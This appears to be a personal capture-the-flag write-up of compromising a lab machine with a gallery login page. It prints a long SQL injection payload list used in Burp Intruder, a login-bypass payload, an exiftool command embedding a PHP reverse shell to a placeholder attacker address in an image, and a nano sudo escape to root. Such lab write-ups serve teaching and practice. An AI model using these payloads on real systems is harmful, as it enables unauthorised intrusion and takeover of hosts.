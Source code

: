 ```yaml
---
sticker: emoji//1f6e4-fe0f
---
```

![](Pasted%20image%2020241007144603.png)
# Enumeration

```ad-info
**OPEN PORTS**:
![](Pasted%20image%2020241007144658.png)
**FUZZING FOR PORT 80**:
![](Pasted%20image%2020241007150635.png)

```

The moment I went to `/gallery`, I realized it was a login page, I tried some XSS and when I sent the request, this was the output:

![](Pasted%20image%2020241007150803.png)
Seems like this login page is vulnerable to [[SQL INJECTION (SQLI)|SQLI]]
So, let's try to exploit it:

For this, I am using burp's intruder with the following payload list:

```ad-summary
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --
'''''''''''''UNION SELECT '2
%00
/*…*/ 
+		
||		
%		
@variable	
@@variable	
AND 1
AND 0
AND true
AND false
1-false
1-true
1*56
-2
1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+
1' ORDER BY 1,2--+
1' ORDER BY 1,2,3--+
1' GROUP BY 1,2,--+
1' GROUP BY 1,2,3--+
' GROUP BY columnnames having 1=1 --
-1' UNION SELECT 1,2,3--+
' UNION SELECT sum(columnname ) from tablename --
-1 UNION SELECT 1 INTO @,@
-1 UNION SELECT 1 INTO @,@,@
1 AND (SELECT * FROM Users) = 1	
' AND MID(VERSION(),1,1) = '5';
' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --
,(select * from (select(sleep(10)))a)
%2c(select%20*%20from%20(select(sleep(10)))a)
';WAITFOR DELAY '0:0:30'--
```

Also, as seen in the request, it must be URL encoded, so, I also put this in the payload processing:

![](Pasted%20image%2020241007152753.png)

Let's launch the attack:
![](Pasted%20image%2020241007152809.png)

![](Pasted%20image%2020241007152818.png)
Seems like the attack worked for that payload, if we decode it, it is this payload:

`' OR 1 -- -`

And we got in as admin:

![](Pasted%20image%2020241007153027.png)

If we look around, we find an image upload section:

![](Pasted%20image%2020241007153644.png)

We can refer to our [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/FILE INCLUSION VULNERABILITIES/FILE UPLOAD|FILE UPLOAD]] note, when we try to upload a file, we can only upload images, `.jpg, .png` so, let's use `exiftool` to embed a reverse shell between an image:

```ad-note
```php-template
exiftool -Comment="<?php echo shell_exec('/bin/bash -c \'bash -i >& /dev/tcp/YOUR_IP_ADDRESS/YOUR_PORT 0>&1\''); ?>" cat.jpg -o shell.php
```

As we can see, file is an jpeg now:

![](Pasted%20image%2020241007160746.png)

Let's try to upload it now:

![](Pasted%20image%2020241007161320.png)
![](Pasted%20image%2020241007161325.png)
![](Pasted%20image%2020241007161334.png)
And we got a shell!

Let's proceed with PRIVILEGE ESCALATION:

First, let's spawn a [[STABLE SHELL|stable shell]], once we've done this, it's time to begin with our privilege escalation:

For the privilege escalation, I used [linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS), when I looked at linpeas output, I found this:
![](Pasted%20image%2020241007163005.png)
seems like the password for user mike, let's su to mike:

![](Pasted%20image%2020241007163600.png)
Now we are in as mike, let's look at mike's privileges:

![](Pasted%20image%2020241007163724.png)
We found a rootkit.sh script, let's look at it:

![](Pasted%20image%2020241007163807.png)
As shown in the read function of the script, it uses nano, if we go to gtfobins, this is shown:
![](Pasted%20image%2020241007164109.png)

If we execute the script as the root user, this happens:
![](Pasted%20image%2020241007165053.png)

Let's enter the read option:
![](Pasted%20image%2020241007164217.png)
Next, enter `ctrl+r` and `ctrl+x`, then the following command:

`reset; sh 1>&0 2>&0`

![](Pasted%20image%2020241007165137.png)

![](Pasted%20image%2020241007165154.png)

And just like that, we got root access!

